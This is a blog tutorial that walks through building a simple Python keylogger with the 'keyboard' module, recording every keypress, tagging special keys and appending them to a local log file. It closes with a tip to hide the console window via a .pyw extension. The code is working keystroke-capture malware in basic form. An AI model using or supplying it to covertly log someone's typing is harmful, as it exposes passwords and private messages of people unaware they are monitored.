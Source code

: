 ```yaml
---
title: Designing A Simple Keylogger In Python
description: A tutorial which teaches you how to develop a simple keylogger in Python. Keyloggers are applications which are used to log keys when typed, naturally, keyloggers are not illegal unless used unlawful purposes
category: Programming
image: https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/hero.jpg
excerpt: With Python, you can make a keylogger which will log the keypress of the keyboard and save the contents to a file
keywords:
  - keylogger
  - keylogging in python
  - python keylogger
tags:
  - python
date: 2021-04-24
---
```


> **Keystroke logging**, often referred to as **keylogging** or **keyboard capturing**, is the action of recording (logging) the keys struck on a keyboard, [\[1\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-1) typically covertly, so that a person using the keyboard is unaware that their actions are being monitored. Data can then be retrieved by the person operating the logging program. A **keystroke recorder** or **keylogger** can be either software or [hardware](https://en.wikipedia.org/wiki/Computer_hardware).
>
> ~ [Wikipedia](https://en.wikipedia.org/wiki/Keystroke_logging) ~

<p class="intro">
The above context is extracted from Wikipedia and it explains what a keylogger is and what it does. Well, I hope most of you know what a keylogger is. Keyloggers are in two forms, software and hardware but the one we are going to be creating today is the software form of a keylogger. It is going to listen to all the key strokes and log them to a file. Cool right?
</p>

Before we start, you need to be conversant with the python programming language, it is what we are going to use in this tutorial. Let's get started.

## Installing the required modules

We are going to use the [keyboard](https://pypi.org/project/keyboard/) module for the keylogger. To install it, open your terminal type in `pip install keyboard`. If no error occured, you are good to go.

After that, open a new python file and let's start coding :dark_sunglasses:

## Creating the logger function

```python
import keyboard #The keyboard module

def logger(event):
	print(event.name)

keyboard.on_press(logger)
keyboard.wait()
```

I can say we are done, maybe above 50% done. Let me explain the code; on the first line, we imported the `keyboard` module. Then we defined our `logger(event)` function, it takes `event` as parameter and then it print's it's `.name` out. Then to the next line, we assigned the `logger` function as a parameter to the `keyboard.on_press` method. The `keyboard.on_press` method takes a function as parameter and passes an event to it. Then to the last line, the `keyboard.wait` makes the program run without closing, it acts like a while loop.

If we are to run our code in the terminal, it runs successfully without any errors. However, there is a problem, try typing this sentence after activating the logger `"am a hacker"`.
<img class="Sirv" src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/before_filter.gif" alt="" />

We really might not see the effect because, when the program is ran on the terminal, each character is printed on a new line but if the results were stored in a file, this is how it will look.

<img class="Sirv" src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/before_filter_txt.png" alt="" />

You might be confused, let me explain, when special keys are pressed, their names are returned and thus it makes it difficult for us to know if it was a character or special key. For example, if a user presses <kbd>space</kbd>, it will print out "space" or if <kbd>enter</kbd>, it will print out "enter", when this data is appended to a file, it just adds up to the letters and makes it difficult for us to know whether it was a special key or not.

## Solving the special key problem

Fortunately, there is a solution to this problem, the only thing we need to do is find a way to mark special keys so we will be able to differentiate between the two. To do so, we create another function called `filter(char)` which will filter the results before writing it to a file. It takes a character as parameter and surround the `char` with `[]` if it is a special key else, it will just go ahead and write it to a file.

```python
def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char
```

Well, this new code just popped into my head :laughing: , the first time I made the `filter` function, it was like this.

<img class="Sirv" src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/first_filter_function.png" alt="" />

This function above was 98 lines, this was because, I hard-coded every key inside my function, but now, I use a simple logic for the filter function. if we are to look at all the "special keys", we will find out that the length of their name is more than one whereas the length of normal characters or letters is one. So in our new `filter` function, we first checked if the `char == 'space'`, we then return `" "` if true. Then on the next line, we check if the length of the `char` is greater than one, if it is, then it means it is a special key so we wrap `[]`around it. else, we just return the `char`. Now our keylogger logs the characters much better.

```python
import keyboard #The keyboard module

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	print(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

Now, we are 95% done, our keylogger works as expected but it's not logging to any file. It's only writing to stdout. In order to make a real keylogger, we need to log the output to a file.

## Logging data to a file

The final step is to create a function which will write the data to a file.

```python
import keyboard #The keyboard module

def writer(data):
    with open("logs.txt","a") as file:
        file.write(data)

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	writer(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

We created a function called `writer` which takes `data` as parameter, it then writes the data to a file named "logs.txt", the file is going to be located in the directory as the python file.

Let's have a look at our `logger` function again, we called the `writer` function and we passed the `event.name` to it but we wrapped it with the `filter` function to filter it and that's our keylogger. just run your python file and you are good to go

**Tip:** You can hide the console from popping up if you save your python file with a .pyw extension

